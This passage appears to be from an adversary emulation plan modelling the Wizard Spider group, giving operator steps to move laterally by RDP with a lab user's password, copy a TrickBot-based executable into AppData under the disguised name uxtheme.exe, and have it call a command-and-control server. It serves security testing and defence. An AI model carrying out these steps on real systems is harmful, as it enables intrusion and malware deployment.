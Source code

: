 * <https://unit42.paloaltonetworks.com/emotet-command-and-control/>

* <https://www.cisecurity.org/white-papers/ms-isac-security-primer-emotet/>

* <https://securityintelligence.com/new-banking-trojan-icedid-discovered-by-ibm-x-force-research/>

* <https://global.ahnlab.com/global/upload/download/asecreport/ASEC%20REPORT_vol.88_ENG.pdf>

<br>

## Test 2 (Steps 4-6)

### Step 4 - Move Laterally Deploy TrickBot

:microphone: `Voice Track:`

During this step, Wizard Spider uses bill's credentials to RDP into Toto.

Wizard Spider uploads and executes a malicious EXE based on TrickBot.

Trickbot is uploaded to target using an RDP-mounted network share.

Once executed, Trickbot calls back to the C2 server over HTTP.

```
Compromised user info:

User:	bill@oz.local

System: 10.0.0.8 / toto

File Write (Tribot EXE): %AppData%\uxtheme.exe

C2:	192.168.0.4:447 HTTP - no encryption or obfuscation
```

---

#### ☣️ Procedures

Change your RDP tab name to "RDP into Toto"

RDP into Toto and create RDP drive that has TrickBot folder structure

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

cd ~/
xfreerdp +clipboard /u:oz\\bill /p:"Fall2021" /v:10.0.0.8 /drive:X,wizard_spider/Resources/TrickBot/WNetval
```

Open `CMD.exe` and copy file to bill's AppData\Roaming

:warning: make sure you're in a `CMD` shell

```bash
copy \\tsclient\X\TrickBotClientExe.exe %AppData%\uxtheme.exe
```
